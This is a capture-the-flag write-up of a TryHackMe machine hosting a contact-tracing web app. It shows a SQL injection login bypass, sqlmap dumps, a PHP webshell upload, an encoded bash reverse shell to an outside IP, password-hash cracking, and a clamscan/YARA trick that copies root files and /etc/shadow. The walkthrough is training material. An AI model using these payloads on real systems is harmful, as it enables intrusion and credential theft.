## TL;DR

In this challenge we use `SQL Injection` to login, and then upload webshell.
Next, we can find the hash of `cyrus`'s password inside `mysql`, and crack it.

Lastly, we can execute `clamav`, which is AV, and manipulate it to copy root files into our quarantine folder.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                
| ssh-hostkey:                                                                                                                                   
|   3072 58:aa:3c:4e:2f:55:50:9f:e4:04:df:6c:f5:fa:73:1b (RSA)                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCbAA3IoptkgLXRsJQTMeHfvqSqWO4Vf4wRd6IL3tvGnpllM4J7Ua+b1SBdqUKoIchGV6OvxJxPdPBjYaKGlH39w5UfDkMGl+dWEeeLvLB
RJlzavReckXrhAGsxILhunvNyPLCQSlzE7kIA6sShEXx9rLr09d8v8xuBRa66SSIxSPZDCBk60KzOwfmXzefPw+pnmmqDCn28C+zk5f4oSzzM3Iq9Dpt8KFg1gmcgi1aqExpk2/JEQ83ySczC/4iGp/nzKpR0dUKL1SuJQau7PROHlejolNEfe7hP1zahR6Cgoc9GOnydJXaBU2YH3lVufu7CrsX4TcFYOf/9iCwPAYTAa7X2HEZoCV1QwaH+99LRnH7oN3tkz28Dp2vhQMkCrjP38hGqmS0cnuweGsBkQ+IHMmL4/gYxjo6Md5x9wef5PcOe0veH5mS7kZie/R13yZ/jSwrha/o0TivFODPuMzVvivCVc/PHb5O5zOioqjct7BDT1V+BBfpBS5KAhMVqNj0=
|   256 d6:9b:71:1e:44:2d:ce:1e:7f:94:d8:17:4f:f4:f2:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNSt9rYVBc3eqrYyftNjRZ949nlws6LzshkeVJ7OrqqlIXknrcirVQWqr72a7x5UmaAjfbGIP7Q1gSZAKCTi7Pk=
|   256 f1:ac:8f:45:ea:51:b5:db:5f:ce:00:08:e3:71:ab:83 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOEurqPC0cgyB5nqVTGUdfLk6cmH8GvdncSUkz7I8rxG
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 94C0C57D53B1EE9771925957F29D149C
|_http-title: Coronavirus Contact Tracer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `contacttracer.thm` to our `/etc/hosts`. (this is the hostname it wants)

### Use SQL Injection to login and upload webshell

First, i find this login portal at `http://contacttracer.thm/admin/login.php`, and managed to connect using `SQL Injection`, with the payload `a'||'1'='1'-- -`.



Using `sqlmap` we can find the exact vulnerability:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3
```



first, let's dump the databases:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 --threads 10 --dbs
```
and we got 3 dbs
```bash
[01:54:44] [INFO] retrieved: cts_db           
available databases [3]:
[*] cts_db
[*] information_schema
[*] performance_schema
```

Now, we want the tables from `cts_db`:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 --threads 10 -D cts_db --tables
```
we get 8 tables:
```bash
Database: cts_db                                                                                                                                 
[8 tables]                                                                                                                                       
+---------------+                                                                                                                                
| barangay_list |                                                                                                                                
| city_list     |                                                                                                                                
| establishment |                                                                                                                                
| people        |                                                                                                                                
| state_list    |                                                                                                                                
| system_info   |                                                                                                                                
| tracks        |                                                                                                                                
| users         |                                                                                                                                
+---------------+
```

Next, we want the columns from table `users`:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 --threads 10 -D cts_db -T users --columns
```
and we get 9 columns:
```bash
Database: cts_db
Table: users
[9 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int          |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| username     | text         |
+--------------+--------------+
```

now, we can dump the usernames and passwords:
```bash
sqlmap -r req.txt --batch --level=5 --risk=3 --threads 10 -D cts_db -T users -C username,password --dump
```
Oh no, there is only one user, which we owns. this was all in vain :|
```bash
Database: cts_db
Table: users
[1 entry]
+----------+----------+
| username | password |
+----------+----------+
| admin    | <blank>  |
+----------+----------+
```

In the settings, we can upload image for the app, here `http://contacttracer.thm/admin/?page=system_info`.



I'll upload the `webshell.php` I created:
```bash
echo -e '<?php system($_GET[0]) ?>' > webshell.php
```

and log out, we can see on the main page the location of the webshell we uploaded



and we got our webshell ready, here is example with `id`:


We'll paste the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```
and get the reverse shell:



### Find the hash of cyrus's password inside the internal mysql service

inside `/var/www/html/classes/DBConnection.php` we can find credentials for mysql login:
```bash
}www-data@ip-10-67-181-213:/var/www/html$ cat classes/DBConnection.php                                                                                                                       
<?php                                                                                                                                                                                        
class DBConnection{                                                                                                                                                                          
                                                                                                                                                                                             
    private $host = 'localhost';                                                                                                                                                             
    private $username = 'cts';                                                                                                                                                               
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';                                                                                                                                  
    private $database = 'cts_db';                                                                                                                                                            
```

Now, let's connect using the command and the password `YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE`
```bash
mysql -u cts -p
```




```bash
mysql> use cts_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.01 sec)

mysql> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3eba6f73c19818c36ba8fea761a3ce6d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
1 row in set (0.00 sec)
```
Using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)  we managed to crack the hash `3eba6f73c19818c36ba8fea761a3ce6d`
```bash
3eba6f73c19818c36ba8fea761a3ce6d:sweetpandemonium
```



We can `su` to cyrus using the password we got, so we have the credentials:
```bash
cyrus:sweetpandemonium
```



grab the user flag:
```bash
cyrus@ip-10-67-181-213:/var/www/html$ cd ~
cyrus@ip-10-67-181-213:~$ cat user.txt 
THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}
```

### Privilege Escalation to Root using antivirus copy files as root

we first check for sudo privileges:
```bash
cyrus@ip-10-67-181-213:~$ sudo -l
[sudo] password for cyrus: 
Matching Defaults entries for cyrus on ip-10-67-181-213:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on ip-10-67-181-213:
    (root) /opt/scan/scan.sh
```

we can see the file `/opt/scan/scan.sh` is some bash script that executes `usr/bin/clamscan`:
```bash
cyrus@ip-10-67-181-213:~$ ls -l /opt/scan/scan.sh
-rwxr-xr-x 1 root root 255 May 11  2021 /opt/scan/scan.sh
cyrus@ip-10-67-181-213:~$ cat /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

we can see the copy file means "Copy infected files into DIRECTORY".


The tool `calmscan` checks for signatures in this folder `/var/lib/clamav`.



If the folder will be empty, and there would be only `YARA` rules there, so it'll use them, in order to remove all files:
```bash
rm -rf *
```
The idea is to put our own malicious YARA rule to get all root files, for example, using this YARY rule:

```bash
rule match_all_files {
  strings:
    $any = /./   // regex that matches any byte
  condition:
    $any
}
```

Now, just execute and give the path `/root`:
```bash
cyrus@ip-10-64-176-122:/var/lib/clamav$ sudo /opt/scan/scan.sh
Enter path: /root
/root/.bashrc: YARA.match_all_files.UNOFFICIAL FOUND
/root/.bashrc: copied to '/home/cyrus/quarantine/.bashrc'
/root/root.txt: YARA.match_all_files.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'
/root/.viminfo: YARA.match_all_files.UNOFFICIAL FOUND
/root/.viminfo: copied to '/home/cyrus/quarantine/.viminfo'
/root/.profile: YARA.match_all_files.UNOFFICIAL FOUND
/root/.profile: copied to '/home/cyrus/quarantine/.profile'

----------- SCAN SUMMARY -----------
Known viruses: 1
Engine version: 0.103.12
Scanned directories: 1
Scanned files: 4
Infected files: 4
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.010 sec (0 m 0 s)
Start Date: 2025:12:05 09:57:44
End Date:   2025:12:05 09:57:44
```


grab the root flag:
```bash
cyrus@ip-10-64-176-122:/var/lib/clamav$ cat ~/quarantine/root.txt 
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}
```

We could've copy also the `/etc/shadow`:



```bash
cyrus@ip-10-64-176-122:/var/lib/clamav$ cat /home/cyrus/quarantine/shadow                                                                                    
root:*:18480:0:99999:7:::                                                                                                                                    
daemon:*:18480:0:99999:7:::                                                                                                                                  
bin:*:18480:0:99999:7:::                                                                                                                                     
sys:*:18480:0:99999:7:::                                                                                                                                     
sync:*:18480:0:99999:7:::                                                                                                                                    
games:*:18480:0:99999:7:::                                                                                                                                   
man:*:18480:0:99999:7:::                                                                                                                                     
lp:*:18480:0:99999:7:::                                                                                                                                      
mail:*:18480:0:99999:7:::                                                                                                                                    
news:*:18480:0:99999:7:::                                                                                                                                    
uucp:*:18480:0:99999:7:::                                                                                                                                    
proxy:*:18480:0:99999:7:::                                                                                                                                   
www-data:*:18480:0:99999:7:::                                                                                                                                
backup:*:18480:0:99999:7:::                                                                                                                                  
list:*:18480:0:99999:7:::                                                                                                                                    
irc:*:18480:0:99999:7:::                                                                                                                                     
gnats:*:18480:0:99999:7:::                                                                                                                                   
nobody:*:18480:0:99999:7:::                                                                                                                                  
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7::: 
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::     
lxd:*:18480:0:99999:7:::      
uuidd:*:18480:0:99999:7:::                                                                                                                                                                   
dnsmasq:*:18480:0:99999:7:::                                                                                                                                                                 
landscape:*:18480:0:99999:7:::                                                                                                                                                               
pollinate:*:18480:0:99999:7:::                                                                                                                                                               
sshd:*:18757:0:99999:7:::            
maxine:$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320:18838:0:99999:7:::                                                                                      
cyrus:$6$YWzR.V19JxyENT/D$KuSzWbb6V0iXfIcA/88Buum92Fr5lBu6r.kMoQYAdfvbJuHjO7i7wodoahlZAYfFhIuymOaEWxGlo0WkhbqaI1:18757:0:99999:7:::                                                                               
mysql:!:18758:0:99999:7:::                     
clamav:!:18758:0:99999:7:::                    
systemd-timesync:*:20204:0:99999:7:::          
tss:*:20204:0:99999:7:::                       
tcpdump:*:20204:0:99999:7:::                   
usbmux:*:20204:0:99999:7:::                                                                   
fwupd-refresh:*:20204:0:99999:7:::             
systemd-coredump:!!:20204::::::                                                               
ssm-user:!:20274:0:99999:7:::                       
ubuntu:!:20279:0:99999:7:::
```

and then crack the hashes using `john`:
```bash
┌──(agonen㉿kali)-[~/thm/Lockdown]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tiarna           (?)
```
